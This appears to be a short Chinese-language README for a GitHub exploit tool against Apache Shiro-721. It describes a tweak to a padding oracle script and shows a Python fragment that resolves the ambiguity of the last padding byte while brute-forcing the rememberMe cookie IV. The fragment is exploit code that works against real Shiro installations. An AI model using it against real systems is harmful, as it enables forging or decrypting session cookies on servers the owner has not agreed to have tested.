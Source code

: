 # shiro_padding_oracle

这个exp是基于[Shiro-721](https://github.com/inspiringz/Shiro-721)中的shiro_oracle_padding.py加了一点优化。

添加的代码是padding函数中的这一段
```python
# check the exception 
if j != 16:
    tmp_bytearray = bytearray(head_IV)
    tmp_bytearray[-1] += 1
    IV = tmp_bytearray.decode('latin1').encode('latin1') + chr(i).encode('latin1') + back_IV
    enc = encryption + IV + temp_ciphertext
    remeberme = base64.b64encode(enc)
    res2 = shiro_request(remeberme.decode('latin1'))
```

比如在枚举iv第一位的时候，我们并不知道反馈padding成功是`0x01`还是`0x02 0x02`，所以这个时候需要把iv的前一位改掉，再跑一遍，如果还是反馈成功，那就证明没问题。
